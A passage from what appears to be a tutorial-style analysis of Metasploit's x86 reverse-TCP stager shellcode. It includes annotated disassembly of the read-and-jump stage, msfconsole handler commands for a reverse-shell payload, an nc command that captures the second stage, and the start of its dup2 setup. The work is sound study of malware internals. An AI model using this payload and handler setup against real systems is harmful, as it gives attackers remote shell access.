 ```nasm
                            ; EAX = 0x3, which is the read syscall
0000002C  B003              mov al,0x3
0000002E  CD80              int 0x80

00000030  FFE1              jmp ecx
```

{% sidenote Call `read()` in order to receive data from the server socket, and jump to `ECX` (pointer to the top of the stack), where data is stored %}

This last block of code allows the shellcode to receive data from the Server Socket. Data is placed on the stack.

It translates into the following C code:

```cpp
// fd is the file descriptor of the socket created with socket()
// ECX -> pointer to the top of stack, where data will be stored

read(fd, ECX, 3072);
```

Up until now, I only analysed the 1st stage of the shellcode. To analyse the 2nd stage, I had to connect to a listening `Server`:

```bash
sudo msfconsole
# msf6 > use exploit/multi/handler
# msf6 exploit(multi/handler) > set PAYLOAD  linux/x86/shell/reverse_nonx_tcp
# msf6 exploit(multi/handler) > set LHOST 127.0.0.1
# msf6 exploit(multi/handler) > set LPORT 4444
# msf6 exploit(multi/handler) > run -j
```

In another terminal window:

```bash
nc 127.0.0.1 4444 > stage2.bin

ndisasm -b 32 -p intel stage2.bin
```

Follows the assembly of the second stage:

```nasm
                            ; save File Descriptor of the Server Socket into EDI
00000000  89FB              mov ebx, edi

                            ; push 0x00000002 and move it into ECX
00000002  6A02              push byte +0x2
00000004  59                pop ecx
```

{% sidenote The instruction `push byte` is useful when you want to push a 32-bit integer value like `0x00000002` but you have to avoid `NULL` bytes. Moreover, it uses only `2` bytes %}

```nasm
                            ; push 0x0000002f (63) into EAX
00000005  6A3F              push byte +0x3f
00000007  58                pop eax

                            ; call syscall 63: dup2()
00000008  CD80              int 0x80
```
